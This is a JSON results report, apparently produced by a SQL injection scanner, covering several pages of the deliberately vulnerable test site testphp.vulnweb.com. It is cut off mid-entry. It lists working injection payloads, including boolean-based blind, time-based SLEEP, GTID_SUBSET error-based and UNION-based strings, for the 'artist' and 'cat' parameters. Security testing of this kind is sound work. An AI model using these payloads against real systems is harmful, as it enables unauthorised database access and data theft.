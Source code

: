 ```json
// report-03-04-2024_03-17.json
{
    "results": [
        {
            "url": "http://testphp.vulnweb.com/artists.php?artist=1",
            "is_vuln": true,
            "vectors": [
                {
                    "vector_title": "AND boolean-based blind - WHERE or HAVING clause",
                    "vector_payload": "artist=1 AND 8351=8351"
                },
                {
                    "vector_title": "MySQL >= 5.0.12 AND time-based blind (query SLEEP)",
                    "vector_payload": "artist=1 AND (SELECT 8077 FROM (SELECT(SLEEP([SLEEPTIME])))ZMeR)"
                },
                {
                    "vector_title": "Generic UNION query (NULL) - 1 to 20 columns",
                    "vector_payload": "artist=-9084 UNION ALL SELECT NULL,NULL,CONCAT(0x717a766a71,0x57674f59474559506c77484d524d7946586a776a4f72764e4764767666695278796d497779794d73,0x7162787a71)-- -"
                }
            ]
        },
        {
            "url": "http://testphp.vulnweb.com/listproducts.php?cat=2",
            "is_vuln": true,
            "vectors": [
                {
                    "vector_title": "AND boolean-based blind - WHERE or HAVING clause",
                    "vector_payload": "cat=2 AND 4166=4166"
                },
                {
                    "vector_title": "MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)",
                    "vector_payload": "cat=2 AND GTID_SUBSET(CONCAT(0x716a7a7071,(SELECT (ELT(6724=6724,1))),0x7171767871),6724)"
                },
                {
                    "vector_title": "MySQL >= 5.0.12 AND time-based blind (query SLEEP)",
                    "vector_payload": "cat=2 AND (SELECT 3876 FROM (SELECT(SLEEP([SLEEPTIME])))Jekt)"
                },
                {
                    "vector_title": "Generic UNION query (NULL) - 1 to 20 columns",
                    "vector_payload": "cat=2 UNION ALL SELECT NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL,CONCAT(0x716a7a7071,0x4b754c4b544a6a6b72737265556744724b54625771446e797a59585241784b6d456274746a554d75,0x7171767871),NULL-- -"
                }
            ]
        },
        {
            "url": "http://testphp.vulnweb.com/index.php?id=3",
            "is_vuln": false,
            "vectors": []
        },
        {
            "url": "http://testphp.vulnweb.com/userinfo.php",
            "is_vuln": true,
            "vectors": [
                {
                    "vector_title": "MySQL >= 5.6 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (GTID_SUBSET)",
```